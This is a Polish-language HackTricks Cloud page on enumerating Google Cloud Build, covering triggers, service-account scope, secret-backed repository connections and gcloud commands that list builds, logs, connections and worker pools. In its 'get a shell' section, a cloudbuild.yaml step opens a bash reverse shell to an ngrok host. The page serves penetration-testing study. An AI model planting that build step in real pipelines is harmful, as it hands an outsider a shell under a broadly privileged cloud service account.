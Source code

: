 # GCP - Cloud Build Enum

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

Google Cloud Build to zarządzana platforma CI/CD, która **automatyzuje procesy budowania oprogramowania** i wydawania, integrując się z **repozytoriami kodu źródłowego** i obsługując szeroki zakres języków programowania. **Umożliwia programistom automatyczne budowanie, testowanie i wdrażanie kodu**, zapewniając jednocześnie elastyczność w dostosowywaniu kroków budowania i przepływów pracy.

Każdy wyzwalacz Cloud Build jest **powiązany z repozytorium Cloud lub bezpośrednio połączony z zewnętrznym repozytorium** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nie widziałem żadnej możliwości kradzieży tokenu Github/Bitbucket stąd ani z Repozytoriów Cloud, ponieważ po pobraniu repozytorium jest ono dostępne za pośrednictwem adresu URL [https://source.cloud.google.com/](https://source.cloud.google.com/), a Github nie jest dostępny dla klienta.
{% endhint %}

### Wydarzenia

Cloud Build może zostać wywołany, jeśli:

* **Wprowadzono zmiany do gałęzi**: Określ gałąź
* **Dodano nową etykietę**: Określ etykietę
* **Pull request**: Określ gałąź, która otrzymuje PR
* **Ręczne wywołanie**
* **Wiadomość Pub/Sub**: Określ temat
* **Zdarzenie webhooka**: Ujawni adres URL HTTPS, a żądanie musi być uwierzytelnione za pomocą tajnego klucza

### Wykonanie

Istnieją 3 opcje:

* Plik yaml/json **określający polecenia** do wykonania. Zazwyczaj: `/cloudbuild.yaml`
* Jedna, która może być określona „w linii” w konsoli internetowej i w wierszu poleceń
* Najczęstsza opcja
* Istotna dla dostępu nieuwierzytelnionego
* **Dockerfile** do zbudowania
* **Buildpack** do zbudowania

### Uprawnienia SA

**Konto usługi ma zakres `cloud-platform`**, dzięki czemu może **korzystać ze wszystkich uprawnień.** Jeśli **nie jest określone żadne konto usługi** (jak przy przesyłaniu), zostanie użyte **domyślne konto usługi** `<numer-projektu>@cloudbuild.gserviceaccount.com`.

Domyślnie nie są udzielane żadne uprawnienia, ale jest dość łatwo nadać mu kilka:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Zatwierdzenia

Możliwe jest skonfigurowanie Cloud Build do **wymagania zatwierdzeń dla wykonania budowy** (domyślnie wyłączone).

### Połączenia i Repozytoria

Połączenia można tworzyć za pomocą:

* **GitHub:** Wyświetli monit OAuth, prosząc o uprawnienia do **uzyskania tokenu Github**, który zostanie przechowywany w **Menedżerze Sekretów.**
* **GitHub Enterprise:** Poprosi o zainstalowanie **GithubApp**. Zostanie utworzony i przechowywany w tym projekcie **token uwierzytelniający** z hosta GitHub Enterprise jako sekret Menedżera Sekretów.
* **GitLab / Enterprise:** Należy **podać token dostępu API i token dostępu do odczytu API**, które zostaną przechowywane w **Menedżerze Sekretów.**

Po utworzeniu połączenia można go użyć do **powiązania repozytoriów, do których konto Github ma dostęp**.

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Zauważ, że repozytoria połączone w ten sposób są **dostępne tylko w wyzwalaczach korzystających z 2. generacji.**
{% endhint %}

### Połącz repozytorium

To nie to samo co **`połączenie`**. Pozwala to na **różne** sposoby uzyskania **dostępu do repozytorium Githuba lub Bitbucket**, ale **nie generuje obiektu połączenia, ale generuje obiekt repozytorium (1. generacji).**

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Przechowywanie

Czasami Cloud Build **generuje nowe miejsce przechowywania plików dla wyzwalacza**. Dzieje się to na przykład w przykładzie, który oferuje GCP z:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Uzyskaj dostęp do powłoki

Utworzono kubełek o nazwie [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox), aby przechowywać plik `.tgz` z plikami do użycia.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Wyliczanie

Możesz znaleźć **wrażliwe informacje w konfiguracjach budowy i logach**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacja uprawnień

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Nieuwierzytelniony dostęp

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Po wykorzystaniu

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
